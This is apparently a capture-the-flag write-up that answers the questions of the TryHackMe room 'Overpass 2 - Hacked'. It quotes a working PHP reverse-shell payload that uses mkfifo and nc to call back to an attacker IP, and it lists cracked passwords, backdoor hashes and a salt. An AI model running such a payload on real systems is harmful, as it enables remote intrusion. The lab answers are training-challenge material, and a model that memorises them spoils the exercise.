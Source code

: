# Overpass 2 - Hacked
[Back to Tryhackme page](../index.md)

---

## Forensics - Analyse the PCAP 

- What was the URL of the page they used to upload a reverse shell?
**/development/**


- What payload did the attacker use to gain access?
	```php 
	<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
	```

- What password did the attacker use to privesc?
**whenevernoteartinstant**

- How did the attacker establish persistence?
**https://github.com/NinjaJc01/ssh-backdoor**

- Using the fasttrack wordlist, how many of the system passwords were crackable?
**4**

---

## Research - Analyse the code 

- What's the default hash for the backdoor?
**bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3**



- What's the hardcoded salt for the backdoor?
**1c362db832f3f864c8c2fe05f2002a05**

- What was the hash that the attacker used? - go back to the PCAP for this!
**6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed**

- Crack the hash using rockyou and a cracking tool of your choice. What's the password?
**november16**

---

## Attack - Get back in! 


- The attacker defaced the website. What message did they leave as a heading?
**H4ck3d by CooctusClan**

### User flag

![User flag](overpass%202%20user%20flag.png)

### Root flag

![Root flag](overpass%202%20root%20flag.png)


---

## Source 
- [Overpass 2 TryHackMe](https://tryhackme.com/room/overpass2hacked)
